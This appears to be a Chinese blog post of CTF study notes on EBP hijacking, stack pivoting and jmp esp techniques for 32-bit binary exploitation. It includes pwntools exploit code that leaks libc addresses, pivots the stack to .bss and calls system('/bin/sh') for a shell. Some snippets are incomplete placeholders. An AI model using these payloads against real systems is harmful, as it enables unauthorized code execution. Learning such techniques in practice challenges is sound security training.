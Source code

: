 ```yaml
---
layout: post
title:  "ebp劫持"
date:   2020-02-23 
categories: jekyll update
---
```

### ebp 劫持

#### 一、修改main_ebp -> （实质）间接修改main_return_address

main_ebp -> target_addr 

```python
main -> func(a,b)




b
a
func_return_main
				<= func_ebp = main_ebp (to fake)
				
				
				
				<= fun_esp
				
main_return_address -> target_func
main_ebp -> target_address
				
				
```

```python
paylaod = padding + p32(target_func) + p32(target_addr)
```

**即修改main_ebp ,在 main 函数返回时，leave ;	ret ;**

**leave 后 esp = ebp ，再pop ebp;那么 esp -> 返回地址。即在之前布置ebp的高4字节处改为system -> getshell**

#### 栈劫持

对于wiki上的 ret2libc 的题可以利用栈劫持(pop_ebp + leave_ret)去做(即只利用了一次栈溢出) //没有

```python
payload   = padding + (esp_padding?)  + fake_ebp

payload += p32(elf.plt["puts"]) + p32(pop_ret) + p32(elf.got["puts"])

payload += p32(elf.plt["gets"]) + p32(pop_ret) + p32(bss_addr)

payload += p32(pop_ebp_ret) + p32(bss_addr) + p32(leave_ret)
#ebp -> bss  ; mov esp,ebp  ; pop ebp  ;  ret ->system

p.sendlineafter("Can you find it!?",payload)
puts_addr = u32(p.recv(4))
libc_base = puts_addr - libc.symbols["puts"]
libc.address = libc_base
system = libc.symbols["system"]
binsh = libc.search("/bin/sh").next()

payload = "junk" + p32(system) + "junk" + p32(binsh)
p.sendline(payload)
p.interactive()
```



#### 三、 若有，可以利用 jmp  esp;

```
jmp_esp_addr = 0x8048504
shellcode = " " # 短的sc
padding = ''
payload = ''
payload +=shellcode.ljust(padding + fake_ebp ,"\x90")
payload += asm("sub esp,40;jmp esp")
hyq.sendlineafter(" ",payload)
hyq.interactive()
```

即劫持eip = esp ; 利用往栈上写指令，写shellcode 并执行 -> getshell.



参考链接：https://www.bilibili.com/video/BV1JV411m7PC?p=3